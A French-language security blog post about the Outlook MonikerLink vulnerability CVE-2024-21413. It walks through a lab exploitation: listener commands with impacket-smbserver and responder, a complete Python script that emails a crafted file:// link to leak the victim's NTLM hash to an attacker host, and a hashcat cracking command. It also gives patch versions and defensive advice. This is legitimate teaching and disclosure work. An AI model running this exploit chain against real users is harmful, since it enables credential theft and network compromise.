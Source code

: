 ```yaml
---
title : "Compromettre Microsoft Outlook via l'ouverture d'un simple Email  : CVE-2024-21413 (Exécution de code arbitraire)"
date : 2024-02-18T19:00:56Z
draft : false
images: [/images/Outlook-CVE-2024-21413.jpg]
featuredImage : '/images/Outlook-CVE-2024-21413.jpg'
featuredImagePreview : '/images/Outlook-CVE-2024-21413.jpg'
---
```



## Introduction

CVE-2024-21413 baptisée MonikerLink est une vulnérabilité critique qui permet à un attaquant non authentifié de divulguer le condensat (hash) NTLM local et potentiellement une exécution de code arbitraire à distance. Son exploitation nécessite une intervention de l'utilisateur.

Avec un niveau de criticité de 9,8 sur (CVSS), elle représente l'une des menaces les plus sérieuses récemment révélées.  Cette vulnérabilité ouvre la porte à des cyberattaques sophistiquées, allant du vol de données au déploiement de rançongiciels à travers le réseau d'une organisation.

La liste des versions vulnérables :

* Microsoft Office 2016
* Microsoft Office LTSC 2021
* Microsoft 365 Apps for Enterprise
* Microsoft Office 2019

## Comment ça marche ?

La CVE-2024-21413 utilise le "Outlook Preview Pane"  pour lancer des attaques. Normalement, Microsoft Office utilise la vue protégée (Protected View) pour empêcher les documents potentiellement dangereux d'exécuter du code sans l'accord de l'utilisateur. Mais cette faille contourne ces protections, permettant au code malveillant de s'exécuter dès qu'on ouvre le mail en aperçu.

## Exploitation de la vulnérabilité CVE-2024-21413

Un POC disponible sur (https://github.com/CMNatic/CVE-2024-21413)  décrit les étapes pour exploiter CVE-2024-21413, en utilisant l'authentification SMTP pour envoyer un e-mail qui contourne les vérifications de sécurité courantes.

Le script nécessite des paramètres tels que les détails du serveur SMTP, les adresses e-mail de l'expéditeur et du destinataire, ainsi que l'URL malveillante

Cette démonstration illustre concrètement comment les attaquants pourraient exploiter cette vulnérabilité pour exécuter du code à distance sur le système d'une victime sans éveiller de soupçons.

### Etape 1 : Mise en place d'un listener

D'abord on lance un SMB Listener avec la commande impacket-smbserver. On peut aussi lancer un listener avec la commande responder en spécifiant l'interface d'écoute.

```
impacket-smbserver -smb2support -ip 0.0.0.0 test /tmp 
```
ou 
```
responder -I eth0
```

![Lance un listener](/images/step1_outlook-rce.png)



### Etape 2 : Envoi initial

On envoie l'Email en utilisant le serveur SMTP spécifié et en ciblant le destinataire avec un message élaboré contenant le lien malveillant.

* attacker@monikerlink.thm est le mail de l'attaquant
* victim@monikerlink.thm est le mail de la victiome

Le code exploit.py
```
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://192.168.1.6/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('ZalePentester', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('monikerlink.thm', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```


![Envoi email](/images/step2_outlook-rce.png)

### Etape 3 : Reception du mail par la victime

La victime reçoit l'e-mail dans Outlook sans aucun avertissement ni restriction, démontrant le contournement du Protected View .

![Reception email](/images/step3_outlook-rce.png)

### Etape 4 : Ouverture du lien malveillant par la victime

Lorsque la victime clique sur le lien , l'attaquant intercepte les identifiants NTLM. Ce qui constitue une violation de sécurité critique pouvant conduire à une compromission réseau totale.

![Interception Hash](/images/step4_outlook-rce.png)


### Etape 5 : Interception des informations NTLM

Après avoir recupéré le hash, on peut cracker le mot de passe en utilisant un dictionnaire de mot de passe.
```
hashcat -a 0 -m 5600 hash.txt rockyou.txt -o cracked.txt -O
```
![Interception Hash](/images/step5_outlook-rce.png)

Avec un peu de chance, on peut cracker le mot de passe d'ou la necessité d'avoir un très bon dictionnaire.

![Interception Hash](/images/step6_outlook-rce.png)


## Démonstration

Dans cette vidéo, nous allons faire la démonstration d'un exemple d'exploitation réussie.

{{< youtube Qvooiddg9DM >}}


## Comment la CVE-2024-21413 peut mener à l'exécution de code arbitraire à distance ?
Le Chercheur @xaitax  a publié une vidéo démontrant comment cette vulnérabilité pourrait mener à une exécution de code arbitraire à distance. L'exploit n'est pas encore disponible au public. 

{{< tweet 1759318090788037093 >}}

## Recommandations

Les mesures suivantes sont également recommandées pour renforcer la sécurité :

* Mise à Jour Régulière : Assurez-vous que votre suite Microsoft Office est à jour avec les derniers correctifs de sécurité.

* Sensibiliser les Utilisateurs : Informez les utilisateurs sur les risques des e-mails de phishing et l'importance de la prudence lorsqu'ils traitent des e-mails inattendus.

* Mettre en Place des Solutions de Sécurité Avancées : Utilisez des solutions de sécurité e-mail qui offrent des capacités de protection avancées contre les menaces, y compris l'analyse des pièces jointes et des liens des e-mails pour détecter les contenus malveillants.

## Correctifs

Les corrections sont disponibles dans l'une de ces versions de Microsoft Office :

* Office 2021 : Version 2401 (Build 17231.20236)
* Office LTSC 2021 : Version 2108 (Build 14332.20637)
* Office 2019 : Version 2401 (Build 17231.20236)
* Office 2019 (Volume Licensed) : Version 1808 (Build 10407.20032)
* Office 2016 : Version 2401 (Build 17231.20236)

Pour Microsoft 365 Apps, voici la liste des versions avec correctifs :

* Current Channel : Version 2401 (Build 17231.20236)
* Monthly Enterprise Channel : Version 2312 (Build 17126.20190)
* Monthly Enterprise Channel : Version 2311 (Build 17029.20178)
* Semi-Annual Enterprise Channel (Preview) : Version 2308 (Build 16731.20550)
* Semi-Annual Enterprise Channel : Version 2308 (Build 16731.20550)
* Semi-Annual Enterprise Channel : Version 2302 (Build 16130.20916)
* Semi-Annual Enterprise Channel : Version 2208 (Build 15601.20870)

Références :

 * https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413

 * https://github.com/CMNatic/CVE-2024-21413

 * https://github.com/duy-31/CVE-2024-21413

 * https://twitter.com/xaitax/status/1759318090788037093
